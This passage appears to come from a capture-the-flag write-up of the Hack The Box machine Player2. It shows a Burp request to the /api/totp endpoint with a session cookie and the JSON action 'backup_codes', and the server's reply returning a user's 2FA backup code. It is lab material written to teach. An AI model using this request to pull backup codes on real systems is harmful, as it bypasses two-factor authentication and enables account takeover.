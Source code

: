 ![&quot;invalid\_session&quot;](../.gitbook/assets/6-invalid-session.png)

I tried sending a blank test message using Burp like before, but this gave me an "invalid session" error message, so I determined I probably needed to send the PHPSESSID I saw in my cookies after I logged into the site.  Sending the session ID in a header kept giving me the same error until I realized my mistake. **Need to send the session ID in a** _**COOKIE!!!**_ **** After that, the error message became "invalid action".  

On the 2FA site I saw:

> 2FA You can either use the OTP that we sent to your mobile or the `backup codes` that you have with you.

Emphasis above is mine.  Since I had already noticed on the `/totp` site that I was looking for "backup codes", and the blog above had `{"action":"backup_codes",` in his request, this looked like what I needed.    

```text
POST /api/totp HTTP/1.1
Host: product.player2.htb
Content-Type:application/json
Content-Length: 31
Cookie: PHPSESSID=7987tggfl6k22pq872k2vhqcej

{
  "action":"backup_codes"
}
```

Once I got my request formatted correctly ,and had the proper Cookie header, I got a response from the server.

```text
HTTP/1.1 200 OK
Date: Wed, 24 Jun 2020 23:56:46 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 43
Content-Type: application/json

{"user":"snowscan","code":"84573484857384"}
```
